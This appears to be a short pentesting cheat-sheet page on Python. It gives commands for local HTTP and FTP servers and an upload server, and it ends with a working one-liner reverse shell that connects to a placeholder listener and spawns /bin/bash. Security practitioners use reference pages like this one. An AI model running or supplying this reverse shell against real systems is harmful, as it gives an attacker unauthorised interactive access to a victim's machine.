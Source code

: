 ```yaml
---
title : "Python"
# pre : ' '
description : "Python is a programming language that lets you work quickly and integrate systems more effectively."
date : 2022-12-05T09:22:16+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Python2', 'Python3']
---
```


## Python

Python is a programming language that lets you work quickly and integrate systems more effectively.

## Python Web Server

Serving files with local web server.

Python2

```plain
python2 -m SimpleHTTPServer 9090
```

Python3

```plain
python3 -m http.server 9090
```

## Python2/3 FTP Server

Requires: `python2 -m pip install pyftpdlib` / `python3 -m pip install pyftpdlib`

**Note:** By default this will allow *anonymous* login. To use username/password based authentication, please use the `-u USERNAME` and `-P PASSWORD` flags.

```plain
python2 -m pyftpdlib -p 21 -w
```

```plain
python3 -m pyftpdlib -p 21 -w
```

## Python3 Web Server with Upload

Download script [here](https://gist.github.com/crypt0rr/19f009c90205697ef26ab1fd82c26903).

```plain
python3 HTTPServerWithUpload.py -p 80
python3 HTTPServerWithUpload.py --port 80
```

## Python2 One-Liner Reverse Shell

```plain
python2.7 -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<LISTERNER-IP>>",<<LISTERNER-PORT>>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

## URL list

- [Python.org](https://www.python.org/)
